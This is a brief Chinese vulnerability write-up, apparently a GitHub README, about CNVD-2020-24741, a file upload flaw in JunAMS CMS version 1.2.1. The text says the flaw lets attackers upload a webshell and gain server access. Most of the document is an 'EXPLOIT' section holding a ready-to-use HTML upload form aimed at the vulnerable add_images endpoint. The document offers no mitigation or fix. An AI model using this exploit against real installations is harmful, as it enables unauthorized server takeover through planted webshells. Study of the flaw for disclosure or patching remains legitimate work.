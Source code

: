 # CNVD-2020-24741 JunAms内容管理系统文件上传漏洞


JunAMS是一款以ThinkPHP为框架的开源内容管理系统。

JunAMS内容管理系统存在文件上传漏洞，攻击者可利用该漏洞上传webshell，获取服务器权限。

影响版本：JunAMS junAMS 1.2.1.20190403

EXPLOIT:


```html
<form enctype="multipart/form-data" action="http://localhost//admin.php/common/add_images.html" method="post">  
<input type="file" name="file" size="50"><br>  
<input type="submit" value="Upload">  
</form>

```

via：beautymanor

ref：

https://www.cnvd.org.cn/flaw/show/CNVD-2020-24741

